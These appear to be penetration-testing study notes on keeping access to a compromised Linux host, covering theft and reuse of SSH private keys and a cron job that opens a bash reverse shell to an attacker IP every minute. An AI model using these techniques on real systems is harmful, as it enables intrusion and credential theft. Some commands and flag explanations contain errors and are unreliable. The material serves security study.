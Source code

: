 # Linux Persistence

## Contents
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## Persistence Via SSH Keys

### How SSH Works & How it Can Be Used for Persistence
- Linux is typically deployed as a server operating system and as a result Linux servers are typically accessed remotely via services (protocols) like SSH.
- If SSH is enabled and running on a Linux system that you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
- In most cases Linux servers will have key-based authentication enabled for the SSH service.
  - This allows the users to access the Linux system remotely without the need for a password.
- After gaining access to a Linux system, we can transfer the SSH private key of a specific user account to our system and then use that SSH private key for all future authentication and access.
  - **_The essential step in all of this is finding the private key on the target system_.**
- You could also generate a new public/private key pair, transfer the public key to the target Linux system, and use the private key to login. 

### Generating SSH Keys
```
ssh-keygen -t rsa -C "add any comment to label your key here"
```
- `-t rsa` : sets the type of algorithm to rsa
- `-C` : optional to add a short comment to "label" your key pair

### Key Pair
1. `id_rsa` : private key
2. `id_rsa.pub` : public key

### Example
> The following is from a lab. It shows the general process, commands, and techniques that can be replicated on other similar systems.

#### Initial Access
- We have gained access to a target Linux system via creds. Therefore we can login via ssh.
```
ssh compromised_username@[target ip]
```

#### Copy the id_rsa File
- We want to copy the `id_rsa` file from the compromised target account onto our attack system.
- Exit the target. Back in your attack machine, use the secure copy command: `scp`
  - scp copies files between hosts on a network.
  - It uses ssh for data transfer, and uses the same authentication and provides the same security as ssh.
```
# General Syntax:
[user]@[host1 or ip address]:/path/to/file-to-copy /path/to/local/copy-target
# Example: 
scp Syntax: scp compromised_username@[target ip]:~/.ssh/id_rsa .
```
- Once that copies to your local (attack) machine, you need to change the perms to what is expected of a private key
```
chmod 400 id_rsa      # this is required; ssh will pitch a fit if you don't
```
- Now you can use this private key to log into the target system via ssh.

#### Persistence
- Login with the ssh private key:
```
ssh -i id_rsa compromised_username@[target ip]
```
- `-i` : identity_file - Selects a file from which the identity (private key) for RSA or DSA authentication is read.
  - The default for ssh protocol version 1 is `~/.ssh/identity`
  - The default for ssh protocol version 2 is `~/.ssh/id_rsa` and `~/.ssh/id_dsa`
- That should log you onto the system without providing a password

----

## Persistence Via Cron Jobs

Reference: https://attack.mitre.org/techniques/T1053/

### Cron Jobs & Persistence
- Linux implements task scheduling through a utility called `cron`.
  - `cron` is a time-based service that runs applications, scripts, and other commands repeatedly on a specified schedule.
- An application (or script, etc.) that has been configured to run repeatedly with Cron is called a Cron Job.
  - After compromising a Linux systems...
  - We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.
  - You set up a Bash reverse shell command to run (and connect back to a Netcat listener) at certain intervals. That way, if you get kicked off or the machine reboots, etc. your cron job will "call home" and get you a reverse shell.

### Anatomy of a Cron Job
- The cron format has five time and date fields separated by at least one blank.
- An astersisk (`*`) in a field is the "wildcard" and indicates all legal values
- Therefore, five asterisks (`* * * * *`) means the cron job will run every minmute of every hour of every day of every month and every day of the week.
```
*  *  *  *  *    command to be executed
_  _  _  _  _
|  |  |  |  |
|  |  |  |  + -- day of the week  (0-7; Sunday is 0 and 7)
|  |  |  + ----- month            (1 - 12)
|  |  + -------- day of the month (1 - 31)
|  + ----------- hour             (0 - 23)
+ -------------- minute           (0 - 59)
```
### Example
> The following is from a lab. It shows the general process, commands, and techniques that can be replicated on other similar systems.

#### Initial Access
- We have gained access to a target Linux system via creds. Therefore we can login via ssh.
```
ssh compromised_username@[target ip]
```

#### Check the Scheduled Cron Jobs
- On the target machine:
```
cat /etc/cron*
```
#### Create a Cron Job
- You create a cron job by:
  - Creating your own cron file
  - Adding that cron file to the appropriate cron subdir
- Example:
```
echo "* * * * * /bin/bash -c 'bash -i &> /dev/tcp/[attack ip]/[port] 0>&1' > cron
cat cron  # to check
```
- `* * * * *` : run every minute of every hour of every day of every month of every week.
- Bash Stuff: 
  - `c string` : commands are read from string.
  - `>& (same as &>)` : redirect standard output (1) and standard error (2); i.e., 2>&1 
    - This means: `&>` redirects the standard output (fd 1) and error (fd 2) to the socket opened to the IP 192.166.95.2 which would be listening on port 1234 (the port you indicate in [port] ).
  - `0>&1` : redirect standard input (fd 0) to the same place as standard output (fd 1).
    - This would literally mean '0' (standard input) is attached to '1' (standard output).
    - Therefore, stdin (fd 0) is attached to stdout (fd 1) and (from the above:  &> ) we know that the stdin for this bash process is available to the attacker listening on port 1234.

#### Add Cron Job to Crontab
```
crontab -i cron
crontab -l
```
- `-i` : This option modifies the -r option to prompt the user for a 'y/Y' response before actually removing the crontab.
- `-r` : The current crontab will be removed.
- `-l` : -l : List the cronjobs in crontab (display the current crontab; i.e., table with scheduled cron jobs)
  - You should see your newly added reverse shell cron job.
- NOTE: This will be a cron job run with the perms of your current user account.
  -  This is not an elevated session.
  -  If you have elevated privileges, then use that account (i.e., root) to create your cron job. That way it executes with root's privileges.
 
#### Set Up a Listener
```
nc -nvlp 1234 
```
- Spin up a listener on your attack machine.
- You should get a connection within 1 minute.













